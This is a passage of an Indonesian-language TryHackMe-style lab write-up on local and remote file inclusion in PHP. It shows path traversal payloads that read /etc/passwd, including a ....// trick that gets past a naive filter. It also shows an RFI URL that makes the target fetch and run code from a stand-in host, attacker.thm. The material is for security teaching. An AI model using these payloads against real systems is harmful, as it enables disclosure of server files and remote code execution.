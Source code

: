 3. Selanjutnya, dalam skenario berikut, dev mulai menggunakan validasi input dengan memfilter beberapa kata kunci.

http://webapp.thm/index.php?lang=../../../../etc/passwd

Jika kita memasukkan payload diatas, maka akan mendapatkan error:
```
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
Jika kita memeriksa pesan error di bagian `include(languages/etc/passwd)`, kita tahu bahwa aplikasi web mengganti `../` dengan string kosong. Ada teknik yang dapat kita gunakan untuk melewati ini:

- Menggandakan slash dan dot `..//`. Contoh `....//....//....//....//....//etc/passwd`.

    Ini berfungsi karena filter `PHP` hanya mencocokkan dan menggantikan string subset pertama `../` yang ditemukan dan tidak melakukan pass lain, meninggalkan apa yang digambarkan di bawah ini.
    ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

4. Terakhir, kita akan membahas kasus di mana dev memaksa penyertaan untuk membaca dari direktori yang ditentukan. Misalnya, jika aplikasi web meminta untuk memberikan input yang harus menyertakan direktori seperti: `http://webapp.thm/index.php?lang=languages/EN.php` maka, untuk mengeksploitasi ini, kita perlu menyertakan direktori di payload seperti: `?lang=languages/../../../../../etc/passwd`.

## Remote File Inclusion - RFI

Remote File Inclusion (RFI) adalah teknik untuk memasukkan file jarak jauh dan ke dalam aplikasi yang rentan. Seperti LFI, RFI terjadi ketika membersihkan input pengguna secara tidak benar, memungkinkan penyerang untuk menyuntikkan URL eksternal ke dalam fungsi `include`. Salah satu persyaratan untuk RFI adalah bahwa opsi `allow_url_fopen` harus diaktifkan.

Risiko RFI lebih tinggi daripada LFI karena kerentanan RFI memungkinkan penyerang mendapatkan Remote Command Execution (RCE) di server. Konsekuensi lain dari serangan RFI yang berhasil meliputi:

- Keterbukaan Informasi Sensitif
- Cross-site Scription (XSS)
- Denial of Service (DoS)

Server eksternal harus berkomunikasi dengan server aplikasi untuk serangan RFI yang berhasil di mana penyerang menghosting file berbahaya di server mereka. Kemudian file berbahaya disuntikkan ke dalam fungsi include melalui permintaan HTTP, dan konten file berbahaya dijalankan di server aplikasi yang rentan.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png)

### RFI Steps

Gambar berikut adalah contoh langkah-langkah serangan RFI yang berhasil. Katakanlah penyerang menghosting file `PHP` di server mereka sendiri `http://attacker.thm/cmd.txt` di mana `cmd.txt` berisi pesan pencetakan `Hello THM`.
```php
<?PHP echo "Hello THM"; ?>
```
Pertama, penyerang menyuntikkan URL berbahaya, yang mengarah ke server penyerang, seperti `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. Jika tidak ada validasi input, maka URL berbahaya masuk ke fungsi `include`. Selanjutnya, server aplikasi web akan mengirim permintaan `GET` ke server jahat untuk mengambil file. Akibatnya, aplikasi web menyertakan file jarak jauh ke dalam fungsi `include` untuk mengeksekusi file `PHP` di dalam halaman dan mengirim konten eksekusi ke penyerang. Dalam kasus kita, halaman saat ini di suatu tempat harus menampilkan pesan `Hello THM`.
